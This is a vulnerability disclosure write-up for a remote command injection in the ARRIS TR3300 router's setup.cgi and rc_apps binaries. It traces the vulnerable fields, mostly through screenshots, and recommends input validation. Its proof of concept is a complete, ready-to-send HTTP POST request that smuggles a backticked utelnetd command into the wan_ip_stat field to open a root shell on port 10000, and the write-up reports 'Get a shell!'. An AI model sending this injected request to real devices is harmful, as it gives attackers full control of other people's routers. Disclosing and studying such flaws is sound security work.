 # ARRIS Vulnerability

Vendor:ARRIS

Product:TR3300

Version:1.0.13(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlZ68AAF&c=SURFboard%20Routers)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `static ip settings` function(`wan_stat.html`), `wan_ip_stat、wan_mask_stat、wan_gw_stat、wan_dns1_stat` is directly passed by the attacker, so we can control the `wan_ip_stat、wan_mask_stat、wan_gw_stat、wan_dns1_stat` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

First, accept and process the content of the field(`fix_ipaddr、fix_netmask、fix_gateway、wan_dns1`), and then call the function `nvram_set `to store this input.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

In `rc_apps` binary:

As you can see here, in `sub_40DBFC、sub_40DEF8`  function, the initial input will be extracted.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

Eventually, in `sub_4077BC、sub_407590` function, the initial input will cause command injection.

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

<div  align="center"><img src="./images/7.png" style="zoom:80%;" /></div>



## PoC

We set `wan_ip_stat` as **`/usr/sbin/utelnetd -l /bin/sh -p 10000`**, and the router will excute it,such as:

```http
POST /setup.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 274
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/wan_stat.html
Upgrade-Insecure-Requests: 1

static_ip_enable=&wan_ip_stat=`/usr/sbin/utelnetd -l /bin/sh -p 10000`&wan_mask_stat=255.255.255.0&wan_gw_stat=192.168.0.1&stat_mtu=1500&submit=Apply&h_wan_encapmode=static&todo=save&this_file=wan_stat.html&next_file=wan_dns.html&message=&h_static_ip_enable=enable&todo=save
```

<div  align="center"><img src="./images/8.png" style="zoom:80%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/9.png" style="zoom:80%;" /></div>
